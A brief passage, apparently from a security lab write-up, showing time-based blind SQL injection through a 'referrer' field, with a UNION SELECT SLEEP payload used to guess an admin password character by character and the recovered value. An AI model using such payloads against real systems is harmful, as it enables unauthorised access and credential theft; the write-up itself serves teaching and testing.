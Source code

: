 ![](Screenshots/time-based_identifying_username_admin.png)

Now I can query the password with the same technique using the following command:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' AND password like '4961%'`

As usual, cycling through the letters reveals the password which is `4961`
